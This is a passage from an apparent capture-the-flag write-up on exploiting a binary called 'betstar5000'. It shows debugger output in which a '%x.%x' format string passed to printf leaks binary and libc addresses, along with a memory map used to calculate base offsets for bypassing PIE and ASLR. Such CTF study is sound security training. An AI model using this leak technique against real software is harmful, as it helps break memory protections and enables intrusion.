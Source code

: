 ```
      0x565555b6 <fflush@plt+6>   push   0x10
      0x565555bb <fflush@plt+11>  jmp    0x56555580
──────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   [sp + 0x0] = 0xffffd06c → "%x.%x"
)
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "betstar5000", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565559df → call 0x565555a0 <printf@plt>
[#1] 0x56555ccb → add esp, 0x10
[#2] 0xf7df5e81 → __libc_start_main()
[#3] 0x565556c1 → hlt
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/s 0x5655605c
0x5655605c:    "And the winner is *drumroll*: "
gef➤  x/w 0xf7fb55c0
0xf7fb55c0 <_IO_2_1_stdin_>:    U"\xfbad2288\x56558572\x56558572\x56558570\x56558570\x56558570\x56558570\x56558570\x56558970"
gef➤  c
Continuing.
And the winner is *drumroll*: 5655605c.f7fb55c0
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
```

So we can see the addresses the we leaked are `0x5655605c` (the string in the binary `And the winner is *drumroll*: `), and `0xf7fb55c0` (libc `STDIN`). Notice how these addresses are the first two addresses we can leak with the fmt string `%x.%x`, and that these two addresses are the first two values below our format string `%x.%x`, which is at the top of the stack. This isn't a coincidence. We can reliably use this as a remote infoleak for both `PIE` and `libc`. We can find the offsets from those values to the libc/pie bases like this:

```
gef➤  vmmap
Start      End        Offset     Perm Path
0x56555000 0x56557000 0x00000000 r-x /home/guyinatuxedo/Desktop/betstar/betstar5000
0x56557000 0x56558000 0x00001000 rw- /home/guyinatuxedo/Desktop/betstar/betstar5000
0x56558000 0x5657a000 0x00000000 rw- [heap]
0xf7ddd000 0xf7fb2000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.27.so
0xf7fb2000 0xf7fb3000 0x001d5000 --- /lib/i386-linux-gnu/libc-2.27.so
0xf7fb3000 0xf7fb5000 0x001d5000 r-- /lib/i386-linux-gnu/libc-2.27.so
0xf7fb5000 0xf7fb6000 0x001d7000 rw- /lib/i386-linux-gnu/libc-2.27.so
0xf7fb6000 0xf7fb9000 0x00000000 rw-
0xf7fd0000 0xf7fd2000 0x00000000 rw-
0xf7fd2000 0xf7fd5000 0x00000000 r-- [vvar]
0xf7fd5000 0xf7fd6000 0x00000000 r-x [vdso]
0xf7fd6000 0xf7ffc000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000 0x00025000 r-- /lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000 0x00026000 rw- /lib/i386-linux-gnu/ld-2.27.so
0xfffdd000 0xffffe000 0x00000000 rw- [stack]
```
